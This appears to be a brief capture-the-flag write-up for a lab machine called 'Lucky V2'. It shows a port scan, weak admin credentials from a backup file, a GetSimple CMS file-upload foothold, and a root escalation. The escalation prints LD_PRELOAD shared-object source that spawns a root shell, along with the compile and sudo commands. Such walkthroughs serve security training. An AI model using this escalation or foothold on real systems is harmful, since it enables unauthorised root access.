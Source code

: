 
## 2 - Lucky V2

1. Port scan
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b:bf:40:74:0f:50:88:7d:34:36:44:b8:47:39:d3:1b (RSA)
|   256 bf:55:8c:9f:db:e7:e5:7c:62:59:d7:84:db:38:82:28 (ECDSA)
|_  256 19:01:b4:fe:2f:1a:7b:b1:e2:4b:27:fa:3b:1e:cd:7e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome to GetSimple! - Lucky
| http-robots.txt: 1 disallowed entry 
|_/admin/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

2. Found admin creds. 
```
lucky.xml.bak

lucky:password123
```

3. Found file upload exploit  for Getsimple cms 3.3.10. 

4. Edit theme/templete file with monkey pentest. Obtained foothold. 

5. Change user to lucky. 

6. sudo -l 
```
lucky@lucky:/$ sudo -l
sudo -l
Matching Defaults entries for lucky on lucky:
    env_reset, env_keep+=LD_PRELOAD, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucky may run the following commands on lucky:
    (root) NOPASSWD: /usr/sbin/apache2
```

7. Created a preload for exploitation. (LD_PRELOAD exploitation)
```
cat shell.c  
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
   unsetenv("LD_PRELOAD");
   setgid(0);
   setuid(0);
   system("/bin/bash");
}

gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

8. Rooted. 
```
lucky@lucky:/tmp$ sudo LD_PRELOAD=/tmp/shell.so apache2
sudo LD_PRELOAD=/tmp/shell.so apache2
root@lucky:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
```

